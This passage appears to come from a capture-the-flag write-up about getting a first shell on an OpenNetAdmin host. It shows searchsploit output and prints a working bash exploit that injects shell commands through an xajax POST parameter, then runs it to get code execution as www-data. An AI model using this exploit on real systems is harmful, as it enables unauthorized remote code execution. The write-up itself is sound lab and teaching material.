 
# Initial Shell - Exploiting OpenNetAdmin
## Finding RCE exploit
Running searchsploit a RCE (remote code execution) vulnerability is revealed:

```console
root@silence:~# searchsploit "OpenNetAdmin"
----------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                               |  Path
                                                                             | (/usr/share/exploitdb/)
----------------------------------------------------------------------------- ----------------------------------------
OpenNetAdmin 13.03.01 - Remote Code Execution                                | exploits/php/webapps/26682.txt
OpenNetAdmin 18.1.1 - Command Injection Exploit (Metasploit)                 | exploits/php/webapps/47772.rb
OpenNetAdmin 18.1.1 - Remote Code Execution                                  | exploits/php/webapps/47691.sh
----------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```
The last exploit seems to match the version of the current deployed OpenNetAdmin, so we'll check this one out first.

```console
root@silence:~# cat rce.sh
#!/bin/bash

URL="http://10.10.10.171/ona/"
while true;
do
         echo -n "$ "; read cmd
         curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;
         echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" |
         sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```
Seems like there is a command injection in one of the post parameters.

## Getting a shell as www-data
```console
root@silence:~# ./rse.sh
$ whoami
www-data
```
Running the exploit we can verify code-execution by issuing a simple "whoami". Seems like we have code-execution in the context of the user "www-data". Let's get a shell next!
